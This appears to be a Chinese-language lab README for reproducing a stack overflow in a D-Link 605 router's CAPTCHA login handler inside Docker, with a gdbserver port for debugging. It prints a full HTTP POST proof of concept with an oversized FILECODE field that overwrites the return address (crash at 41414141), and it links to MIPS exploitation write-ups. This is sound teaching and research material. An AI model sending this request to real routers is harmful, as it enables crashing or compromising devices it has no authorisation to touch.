

# dlink605 CAPTCHA stack overflow

编译运行：

```
docker-compose build
docker-compose up -d
```

对外开放两个端口：80是路由器的web端口，1234是gdbserver的调试端口。

使用burpsuite发送触发溢出的请求：

```
POST /goform/formLogin HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

VERIFICATION_CODE=myvoiceismypassportverifyme&FILECODE=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
可以看到程序崩溃在41414141.




# 参考资料

[www.devttys0.com](http://www.devttys0.com/2012/10/exploiting-a-mips-stack-overflow/)
[一个mips栈溢出利用](http://xdxd.love/2016/12/09/%E4%B8%80%E4%B8%AAmips%E6%A0%88%E6%BA%A2%E5%87%BA%E5%88%A9%E7%94%A8/)